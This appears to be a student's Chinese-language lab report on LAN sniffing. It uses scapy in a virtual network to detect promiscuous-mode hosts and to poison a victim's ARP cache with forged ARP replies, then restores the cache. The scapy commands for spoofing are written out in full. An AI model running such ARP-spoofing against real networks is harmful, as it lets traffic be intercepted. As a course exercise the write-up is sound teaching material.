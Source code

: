# 第四章——网络监听

### 零.网络拓扑

<img src="img/拓扑.jpg" alt="拓扑" style="zoom:10%;" />

+ 网关
  + enp0s9：08:00:27:77:9d:82
  + 172.16.111.1
+ 攻击者主机
  + eth0：08:00:27:da:ea:bd
  + 172.16.111.127
+ 受害者主机
  + eth0：08:00:27:97:19:1f
  + 172.16.111.123

### 一.实验准备

###### apt更新与scapy安装：

<img src="img/实验准备.png" alt="实验准备" style="zoom:40%;" />



### 二.实验操作

##### 实验一：检测局域网中的异常终端

检查受害者主机的混杂模式是否打开

```commonlisp
ip link show eth0
```

> 模拟的网络拓扑里，受害者主机仅连接了内部网络，只有eth0一张网卡

​		无promisc字段则未打开

<img src="img/检查混杂模式.png" alt="检查混杂模式" style="zoom:40%;" />

攻击者开启scapy

```
scapy
```

​		scapy可能存在权限限制，输入sudo scapy 

用攻击者连接受害者，输入以下代码

```
pkt = promiscping(172.16.111.123)
```

​		发送后获得反馈如下

<img src="img/非混杂模式.png" alt="非混杂模式" style="zoom:40%;" />

手动打开受害者的混杂模式

```
sudo ip link set eth0 promisc on
```

​		检查此时应该有promisc字段

<img src="img/开启混杂模式.png" alt="开启混杂模式" style="zoom:40%;" />

在混杂模式下再次输入

```
pkt = promiscping(172.16.111.123)
```

得到

<img src="img/混杂模式下.png" alt="混杂模式下" style="zoom:40%;" />

对比两次结果，可知：

> 在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃；而在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。

操作结束后受害者主机关闭混杂模式

```
sudo ip link set eth0 promisc off
```

##### 实验二：手工单步“毒化”目标主机的 ARP 缓存

###### 对受害者主机的arp进行毒化

获取网关的ip地址，在攻击者主机上构建一个arp请求，命令如下

``` 
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
```

查看构建完成的arp请求

```
arpbroadcast.show()
```

发送arp广播请求

```python
recved = srp(arpbroadcast, timeout=2)
```

arp响应的目的地址设置为攻击者主机的地址

```
gw_mac = recved[0][0][1].hwsrc
arpspoofed=ARP(op=2, psrc="172.16.111.1",pdst="172.16.111.123",hwdst="08:00:27:da:ea:bd")
```

发送上述伪造arp响应数据包

```
sendp(arpspoofed)
```

<img src="img/arp广播请求的发送.png" alt="arp广播请求的发送" style="zoom:40%;">

与实验文本相悖的是，受害者主机上没有发生任何变化，即使多次传输arp包，多次更新也无济于事

<img src="img/sendp函数大失败.png" alt="sendp函数大失败" style="zoom:40%;" />

经询问和查找资料，用send函数代替sendp可成功发送，如下所示

<img src="img/send函数成功示范.png" alt="send函数成功示范" style="zoom:40%;" />



伪装网关给受害者发送请求

```python
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:77:9d:82", pdst="172.16.111.123", hwdst="08:00:27:97:19:1f")
sendp(restorepkt1, count=100, inter=0.2)
```

伪装受害者给网关发送请求

```python
restorepkt2 = ARP(op=2, psrc="172.16.111.123", hwsrc="08:00:27:97:19:1f", pdst="172.16.111.1", hwdst="08:00:27:77:9d:82")
sendp(restorepkt2, count=100, inter=0.2)
```

实验操作细则中的代码似乎有误



###### 恢复受害者主机的arp缓存记录

```
ping 172.16.111.1
```

等待几秒或重复操作，退出ping后再检查arp缓存

```
ip neigh
```

##### 自动化的实现

 [arp污染自动化.py](code/arp污染自动化.py) 

### 参考链接

[实验操作细则](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

[send与sendp的用法](https://scapy.readthedocs.io/en/latest/usage.html)

[arp使用说明](https://medium.datadriveninvestor.com/arp-cache-poisoning-using-scapy-d6711ecbe112?gi=d337a101f489)